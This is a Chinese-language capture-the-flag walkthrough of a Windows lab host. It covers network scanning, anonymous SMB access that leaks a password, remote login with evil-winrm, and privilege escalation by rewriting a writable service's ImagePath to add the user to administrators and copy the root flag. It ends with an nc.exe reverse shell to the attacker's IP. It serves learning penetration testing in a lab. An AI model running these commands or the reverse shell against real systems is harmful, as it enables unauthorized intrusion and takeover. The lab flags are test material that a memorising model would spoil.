



# 信息收集

```
sudo arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 00:0c:29:45:eb:2c, IPv4: 10.31.121.145
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.31.121.100   08:00:27:a2:e9:aa       PCS Systemtechnik GmbH
10.31.121.209   be:18:7f:22:35:f5       (Unknown: locally administered)
10.31.121.246   5c:b4:7e:27:ca:77       (Unknown)
```

发现主机ip 10.31.121.100

# 端口扫描

```
nmap -p-  10.31.121.100
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
49667/tcp open  unknown
49668/tcp open  unknown
```

# smb

```
smbclient -L //10.31.121.100/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Reactor_Blueprint Disk      Nuclear Fusion Reactor Core Blueprints
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.31.121.100 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```
smbclient //10.31.121.100/Reactor_Blueprint -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr 29 04:38:33 2026
  ..                                DHS        0  Sat May 16 22:57:08 2026
  Blueprint.txt                       A      618  Wed Apr 29 04:38:33 2026

                13106687 blocks of size 4096. 10339672 blocks available
smb: \> get Blueprint.txt
getting file \Blueprint.txt of size 618 as Blueprint.txt (86.2 KiloBytes/sec) (average 86.2 KiloBytes/sec)
smb: \> 
```

得到凭证

```
 cat Blueprint.txt                   
========================================================================

========================================================================
The ringing in my ears won't fade, won't stop...
Allegro agitate.
I dreamed the whole world vanished...
In the night, my room feels vast
And the silence chokes my heart.

 
Unstable core temperature detected in the Nuclear Fusion Reactor.
Operator Override Configuration Required to prevent complete Meltdown.
Assigned Operator Account: KagamineRin
Core Integrity Access Code: AllegroAgitate2026!
```

```
crackmapexec smb 10.31.121.100 -u KagamineRin -p 'AllegroAgitate2026!'

SMB         10.31.121.100   445    MELTDOWN2        [*] Windows Server 2022 Build 20348 x64 (name:MELTDOWN2) (domain:meltdown2) (signing:False) (SMBv1:False)
SMB         10.31.121.100   445    MELTDOWN2        [+] meltdown2\KagamineRin:AllegroAgitate2026! 
```

```
evil-winrm -i 10.31.121.100 -u KagamineRin -p 'AllegroAgitate2026!'
```

# 获取user.txt



```
user{R0sh1n_Yuuk41_M3ltd0wn_1n1t14t3d}
```

# 基础权限检查

```
whoami /priv
net localgroup administrators
```

结果表明：

当前用户不在 Administrators

# 自动化枚举

使用 PowerUp.ps1 和 winPEASx64.exe 进行辅助枚举后，发现一条非常关键的信息：

HKLM\System\CurrentControlSet\Services\RoshinYuukai 对当前用户 KagamineRin 可写

这意味着当前普通用户可以修改该服务的注册表配置

# 使用 PowerUp.ps1

先把 PowerUp.ps1 上传到靶机当前目录，然后导入模块并执行：

Import-Module .\PowerUp.ps1 Invoke-AllChecks

PowerUp 的输出里提示了一个重要点：

当前用户对某个服务配置有可修改权限

这一步的意义在于，它让我们知道系统里存在一个不是凭据泄露、也不是内核漏洞的提权入口，而是服务配置权限错误。

# 使用 winPEASx64.exe

接着运行 winPEASx64.exe：

.\winPEASx64.exe quiet

在输出中，最关键的一条是：

HKLM\system\currentcontrolset\services\RoshinYuukai (KagamineRin [FullControl])

这条信息的含义是：

注册表路径
HKLM\System\CurrentControlSet\Services\RoshinYuukai

也就是说，普通用户可以完全控制这个服务对应的注册表配置项。

# 提权

查看服务配置：

reg query HKLM\System\CurrentControlSet\Services\RoshinYuukai /s

修改 ImagePath 为 SYSTEM 要执行的命令：

reg add "HKLM\System\CurrentControlSet\Services\RoshinYuukai" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\cmd.exe /c net localgroup administrators KagamineRin /add" /f

触发服务：

cmd /c sc start RoshinYuukai

虽然返回：

[SC] StartService FAILED 1053

但管理员组成员已经变化：

net localgroup administrators

结果里出现了：

Administrator KagamineRin

这就说明：

服务启动虽然超时



但是我的shell还是没权限

# 读取root.txt

```
由于
HKLM\System\CurrentControlSet\Services\RoshinYuukai 
对当前用户 KagamineRin 可写
```

# 分析漏洞服务 RoshinYuukai

```
reg query HKLM\System\CurrentControlSet\Services\RoshinYuukai /s
```

回显

```
DisplayName    REG_SZ        Meltdown Core Controller
ObjectName     REG_SZ        LocalSystem
ImagePath      REG_EXPAND_SZ C:\Windows\System32\ping.exe 127.0.0.1 -n 9999
Start          REG_DWORD     0x3
```

把服务的 ImagePath 从原来的：

```
C:\Windows\System32\ping.exe 127.0.0.1 -n 9999
```

改成我们想执行的命令，比如：

```
reg add "HKLM\System\CurrentControlSet\Services\RoshinYuukai" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\cmd.exe /c copy C:\Users\Administrator\Desktop\root.txt C:\Users\KagamineRin.MELTDOWN2\Documents\root123.txt" /f
```

触发服务

```
cmd /c sc start RoshinYuukai
```

读取复制出的 flag

```
root{Nuc134r_Fusi0n_R34ct0r_C0r3_C0mpr0m1s3d}
```

```
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> reg add "HKLM\System\CurrentControlSet\Services\RoshinYuukai" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\cmd.exe /c copy C:\Users\Administrator\Desktop\root.txt C:\Users\KagamineRin.MELTDOWN2\Documents\root123.txt" /f
 
The operation completed successfully.

*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> cmd /c sc start RoshinYuukai
 
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> Start-Sleep -Seconds 3
 
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> type C:\Users\KagamineRin.MELTDOWN2\Documents\root123.txt
 
root{Nuc134r_Fusi0n_R34ct0r_C0r3_C0mpr0m1s3d}
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> 
```

# 反弹shell

```
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> upload nc.exe
 
                                    
Info: Uploading /home/kali/Desktop/nc.exe to C:\Users\KagamineRin.MELTDOWN2\Documents\nc.exe
                                    
Data: 37544 bytes of 37544 bytes copied
                                    
Info: Upload successful!
*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> dir

    Directory: C:\Users\KagamineRin.MELTDOWN2\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/17/2026  12:52 PM          28160 nc.exe

*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> reg add "HKLM\System\CurrentControlSet\Services\RoshinYuukai" /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\KagamineRin.MELTDOWN2\Documents\nc.exe 10.31.121.145 6666 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\KagamineRin.MELTDOWN2\Documents> cmd /c sc start RoshinYuukai
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```


